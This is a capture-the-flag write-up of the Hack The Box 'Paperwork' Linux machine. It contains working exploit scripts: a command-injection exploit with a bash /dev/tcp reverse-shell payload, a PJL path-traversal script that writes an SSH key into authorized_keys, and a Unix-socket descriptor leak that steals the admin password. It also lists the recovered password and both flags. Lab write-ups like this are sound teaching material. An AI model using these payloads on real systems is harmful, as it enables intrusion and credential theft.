








# Hack The Box — Paperwork (Easy Linux)

**Platform:** Hack The Box — Season 11 (Live)
**Difficulty:** Easy
**OS:** Linux
**Flags:** User ✅ | Root ✅

**Achievement:** https://labs.hackthebox.com/achievement/machine/533012/921
---

## Overview

Paperwork is an Easy-rated Linux machine hosting a document archiving intranet service with a custom, non-standard implementation of the Line Printer Daemon (LPD) protocol on port 1515. The web application leaks its own backend source code via a downloadable archive, revealing a command injection vulnerability in how print job names are logged. This is exploited directly to obtain an initial foothold as the service account running the LPD listener. A second, locally-bound printer service (PJL over port 9100) is then abused via its legitimate `FSDOWNLOAD` command combined with a path traversal payload to plant an SSH public key into a local user's `authorized_keys` file, granting SSH access and the user flag. Privilege escalation exploits a Unix domain management socket that leaks privileged file descriptors — including one pointing to a root-readable credentials file — via `SCM_RIGHTS` ancillary data, allowing the admin password to be read directly and used to escalate to root via `su`.

---

## Reconnaissance

### Virtual Host Resolution

The target hostname was added to the local hosts file ahead of scanning:

```bash
echo "10.129.32.120 paperwork.htb" | sudo tee -a /etc/hosts
```

### Port Scan

A full-port version scan was run against the target:

```bash
sudo nmap -sC -sV -p- --min-rate 1000 10.129.32.120
```

Three open ports were identified:

```
22/tcp   open  ssh            OpenSSH 10.0p2 Ubuntu 5ubuntu5.4
80/tcp   open  http           nginx 1.28.0 (Ubuntu) — "Intranet | Document Archiving Service"
1515/tcp open  ifor-protocol? — fingerprinted response: "Archive_Printer is ready and printing."
```

Port 1515 did not match any known Nmap service signature, and the banner text ("Archive_Printer is ready and printing") indicated a custom or lightly modified printer/archival protocol worth investigating further.

---

## Enumeration

### Web Application — Source Code Disclosure

Browsing to `http://paperwork.htb/` on port 80 revealed the "Document Archiving Service" intranet application. A downloadable archive (ZIP) was found linked from the site.




Extracting the archive revealed the backend source code for the custom service running on port 1515: `server.py`.

### Source Code Analysis — server.py

The script implements a threaded TCP server that mimics an LPD-style print queue protocol:

```python
class LpdHandler(threading.Thread):
    def run(self):
        data = self.sock.recv(1024)
        command = data[0]
        if command == 2:
            self.handle_print_job(data)
        elif command in (3, 4):
            self.sock.send(b"Archive_Printer is ready and printing.\n")

    def handle_print_job(self, data):
        queue = data[1:].decode().strip()
        if queue not in VALID_QUEUE:
            self.sock.send(b'\x01')
            return
        # ... reads job data, extracts job name from a line starting with 'J' ...
        job_name = "Unknown"
        for line in decoded_content.split('\n'):
            line = line.strip()
            if line.startswith('J'):
                job_name = line[1:]
                break

        subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

Two issues stood out during analysis:

1. **Queue validation bypass**: `VALID_QUEUE` is a string read from an environment variable, and the check `if queue not in VALID_QUEUE` tests for *substring containment*, not equality. Since an empty string is a substring of every string in Python, sending an empty queue value trivially satisfies this check regardless of what `VALID_QUEUE` actually contains.
2. **Command injection**: The `job_name`, extracted directly from attacker-supplied job data with no sanitisation, is interpolated into a shell command executed via `subprocess.Popen(..., shell=True)`. Since `job_name` is wrapped only in single quotes inside the f-string, an attacker-controlled value containing a single quote can break out of that context and inject arbitrary shell commands.

---

## Exploitation — Command Injection via Port 1515

### Building the Exploit

A Python exploit script was written to interact with the custom protocol: send an empty queue name to pass the (broken) validation check, then submit a print job whose "job name" field breaks out of the single-quoted `echo` command and executes a reverse shell payload.

```python
import socket

HOST = "10.129.32.120"
PORT = 1515
LHOST = "10.10.14.85"   # attacker VPN IP (tun0)
LPORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# Step A: Accept with empty queue (bypasses the "in" substring check)
s.send(bytes([2]) + b"\n")
print("queue accept:", s.recv(1024))

# Step B: Command injection payload
# Break out of the single-quote context, run the reverse shell, then reopen the quote
cmd = f"bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1'"
job_line = f"' ; {cmd} ; '"
content = f"J{job_line}\n".encode()

# Size header must match exactly (service has a size+1 recv quirk)
header = f"{len(content)} dummyname\n".encode()

s.send(bytes([2]) + header)
print("subcommand ack:", s.recv(1024))

s.send(content)
print("after content:", s.recv(4096))

s.close()
```

### Triggering the Shell

A Netcat listener was started on the attacker machine:

```bash
nc -lvnp 4444
```

The exploit was then run against the target:

```bash
python3 exploit.py
```



A reverse shell was received on the listener, running as the low-privileged service account associated with the LPD listener process.



---

## Post-Exploitation — Pivoting to archivist

### User Enumeration

With shell access, `/etc/passwd` was reviewed, identifying a local interactive-shell account:

```
archivist:x:1000:1000:archivist:/home/archivist:/bin/bash
```

Since SSH was open on port 22, the goal was to gain access as `archivist`.

### SSH Key Pair Generation

An SSH key pair was generated on the attacker machine ahead of planting a key on the target:

```bash
ssh-keygen -t ed25519 -f paperwork_key -N ""
cat paperwork_key.pub
```



### PJL FSDOWNLOAD — Arbitrary File Write via Path Traversal

Further enumeration on the target identified a second, locally-bound printer service on port 9100 speaking **PJL (Printer Job Language)**. PJL includes a legitimate `FSDOWNLOAD` command intended for writing files to a printer's onboard filesystem — used here without proper path restriction, allowing an attacker to traverse outside the intended directory and write to arbitrary filesystem locations, including a target user's `.ssh` directory.

A Python script was written and executed from the existing foothold shell to abuse this and write the attacker's public key directly into `archivist`'s `authorized_keys` file:

```python
import socket, time

pubkey = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILcXPgKV7OeFLi1tZi4ktSZMXDER5ZR/1QrrcG1l9Rfq kali@kali"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9100))

# PJL FSDOWNLOAD writes an arbitrary file; path traversal escapes the printer's
# intended filesystem root and lands inside archivist's home directory
cmd = f'@PJL FSDOWNLOAD NAME="../../../../home/archivist/.ssh/authorized_keys" SIZE={len(pubkey)}\n{pubkey}\n'
s.send(cmd.encode())
time.sleep(1)
print(s.recv(4096).decode(errors="ignore"))
s.close()
```

Executed on the target:

```bash
python3 /tmp/write_key.py
```



### SSH Access as archivist

With the public key now planted, SSH access was obtained using the corresponding private key:

```bash
ssh -i paperwork_key archivist@10.129.32.120
```


---

## User Flag

```bash
cat /home/archivist/user.txt
```

```
ade684fcfb26873d06be1a00351159d5
```



---

## Privilege Escalation — Unix Socket File Descriptor Leak

### Discovering the Management Socket

Further enumeration as `archivist` identified a Unix domain socket used for internal service management:

```
/run/paperwork/mgmt.sock
```

### Extracting Leaked File Descriptors

A Python script was written to connect to the management socket and read any ancillary data returned. Unix domain sockets support passing open file descriptors between processes via `SCM_RIGHTS` control messages — if the daemon on the other end sends file descriptors this way (for example, as part of a security alert notification routine), a connecting client can capture and read directly from those descriptors, regardless of its own file permissions on the underlying file.

```python
import socket, os, array

SOCKET_PATH = "/run/paperwork/mgmt.sock"

s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect(SOCKET_PATH)

msg_buffer = 1024
cmsg_buffer = socket.CMSG_LEN(array.array("i").itemsize * 2)

msg, ancdata, flags, addr = s.recvmsg(msg_buffer, cmsg_buffer)
print(f"Daemon Response: {msg.decode(errors='ignore').strip()}")

fds = []
for cmsg_level, cmsg_type, cmsg_data in ancdata:
    if cmsg_level == socket.SOL_SOCKET and cmsg_type == socket.SCM_RIGHTS:
        fds = array.array("i")
        fds.frombytes(cmsg_data[:len(cmsg_data) - (len(cmsg_data) % fds.itemsize)])
        fds = list(fds)

if len(fds) >= 2:
    admin_fd = fds[1]
    secret_data = os.read(admin_fd, 1024).decode().strip()
    print("STOLEN CREDENTIALS:", secret_data)
```

The script's own diagnostic messaging (*"Ensure the log file contains malice keywords"*) suggests the management daemon monitors `/tmp/archive.log` for suspicious activity and, upon detecting it, triggers a security-alert routine that leaks file descriptors — including one for `/etc/paperwork/admin_pins.conf` — to any client connected to the management socket at that moment. Since the earlier command-injection payload had already written reverse-shell content into `/tmp/archive.log` during initial exploitation, this condition was presumably already satisfied by the time the script was run.

### Running the Exploit

```bash
python3 /tmp/win.py
```

The script successfully intercepted a leaked file descriptor for the admin credentials file and read its contents directly:

```
ApparelMortuaryCedar22
```

**

### Escalating to Root

The recovered credential was used to switch to the root user:

```bash
su
# Password: ApparelMortuaryCedar22
```

> **[POC — Root shell obtained via su]**

---

## Root Flag

```bash
cat /root/root.txt
```

```
0144f234b6c9df8b696b399b62da6329
```



---

## Summary

| Phase | Technique | Result |
|---|---|---|
| Reconnaissance | Full-port Nmap Scan | SSH (22), HTTP (80), custom LPD service (1515) |
| Enumeration | Web App Source Disclosure | `server.py` downloaded, revealing protocol internals |
| Vulnerability Analysis | Source Code Review | Substring-check queue bypass + shell command injection identified |
| Initial Access | Command Injection (Port 1515) | Reverse shell as LPD service account |
| User Pivot | PJL `FSDOWNLOAD` Path Traversal (Port 9100) | SSH key planted in `archivist`'s `authorized_keys` |
| User Flag | SSH as archivist | `ade684fcfb26873d06be1a00351159d5` |
| Privilege Escalation | Unix Socket FD Leak via `SCM_RIGHTS` | Admin credential file read via leaked file descriptor |
| Root Flag | `su` to root using leaked credential | `0144f234b6c9df8b696b399b62da6329` |

---

## Key Takeaways

- **Publicly downloadable "sample" or "reference" archives on internal web applications can leak backend source code.** This single disclosure directly exposed the protocol logic and both vulnerabilities exploited on this box — source code should never be reachable from a location a normal user (let alone an unauthenticated one) can download.
- **`in` is not `==` in Python, and the difference is a security boundary.** Using substring containment to validate an allow-list value is a subtle but critical logic flaw; an empty or partial match bypasses the intended restriction entirely.
- **String interpolation into `shell=True` subprocess calls is unconditionally dangerous** when any part of the interpolated value originates from network input. Quoting alone (single or double) does not neutralise this — any character that can close the quote reopens command injection.
- **Legitimate protocol features can be repurposed as file-write primitives.** PJL's `FSDOWNLOAD` is a real, documented printer management command; the vulnerability here isn't the command itself but the absence of path canonicalisation/sanitisation on the `NAME` parameter, allowing traversal outside the intended filesystem root.
- **Passing file descriptors over Unix domain sockets (`SCM_RIGHTS`) bypasses normal file permission checks for the receiving process.** A daemon that sends privileged file descriptors to a socket reachable by lower-privileged local users effectively grants those users the daemon's own read access to whatever file the descriptor points to — regardless of the connecting user's actual permissions on that file.